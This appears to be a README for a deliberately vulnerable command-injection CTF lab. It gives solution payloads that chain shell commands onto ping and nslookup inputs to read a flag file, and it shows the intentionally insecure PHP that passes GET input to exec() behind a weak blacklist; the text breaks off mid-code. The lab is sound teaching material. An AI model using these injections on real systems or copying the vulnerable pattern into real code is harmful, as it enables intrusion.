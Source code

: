 In the directory with the docker-compose file run:

```docker-compose up```

Note: make sure that nothing is running on the ports listed above or else the challenges won’t be able to start.

If you would like to run this challenge in a CTF environment or you will have multiple users, please contact me. I have automated the full deploy including a method to rotate the containers every 10 seconds to prevent contestants from deleting flags.

#Solutions
##Challenge 1
The first challenge does not attempt to do any kind of sanitization. However, there was client side validation that only allowed a user to submit an ip. To get around this, just submit a valid ip (like 8.8.8.8) and modify the value in the GET request:

http://127.0.0.1:8081/index.php?ip=<b>8.8.8.8&</b>submit=Ping%21

Challenge one allows contestants full freedom to escape the command and read /tmp/flag.txt. Below are a couple of options:

```8.8.8.8; cat /tmp/flag.txt```

```8.8.8.8 %26%26 cat /tmp/flag.txt```

flag{IWasGonnaTellATimeTravellingJokeButYouDidn'tLikeIt}

###Code:
```php
<?php
$command = "ping -c 1 " . $_GET["ip"];

exec($command, $retval);

foreach ($retval as $line) {
    echo $line;
    echo '</br>';
}
?>
```

##Challenge 2
Challenge 2 does not allow for the following characters: “;”, \n, “`", “$", "(", “)”. What is allowed is the “&” and “|” characters. (More info if you are not sure what that is used for https://stackoverflow.com/a/25669618) 

To exploit challenge 2 you will again need to edit the GET request in the URL bar instead of the form. To read flag.txt you could use either of the following:

```google.com %26%26 cat /tmp/flag.txt```

```ADomainThatDoesntExist.com || cat /tmp/flag.txt```

flag{MyThreeFavoriteThingsAreEatingMyFamilyAndNotUsingCommas}

###Code

```php
<?php
$userInput = $_GET["domain"];
$sanitizers = [";",PHP_EOL,"`","$", "(", ")"];
$command = "nslookup " . $userInput;
$safe = false;
foreach($sanitizers as $sanatizer){
    if(strstr(strtolower($userInput), strtolower($sanatizer))!='') {
        echo "Yo! Don't hack me.... please";
```